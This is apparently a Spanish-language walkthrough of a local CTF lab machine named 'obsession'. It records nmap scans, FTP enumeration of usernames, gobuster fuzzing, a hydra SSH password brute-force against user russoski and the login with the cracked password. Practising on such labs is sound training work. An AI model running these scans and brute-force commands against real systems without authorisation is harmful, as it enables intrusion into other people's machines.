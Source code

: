 ### Maquina obsession

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p21,22,80 -vvv -Pn 172.17.0.2

![alt text](image.png)

## Entramos por fpt

ftp 172.17.0.2

![alt text](image-1.png)

del archivo chat-gonza.txt obtuvimos los usuarios gonza, nagora, russoski

del archivo pendientes.txt obtuvimos que un usuario tiene permisos SUID

## Visitando la web

obtuvimos el usuario russoski

## Fuzzing web

gobuster dir -t 200 -u http://172.17.0.2:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404

en http://172.17.0.2/backup/backup.txt reafirmamos que existe el usuario russoski

## ataque con hydra

hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4 -I

![alt text](image-2.png)


## Intrusion 

entramos por ssh 

ssh russoski@172.17.0.2

escribimos la contraseña iloveme


## Escalar privilegios

![alt text](image-3.png)

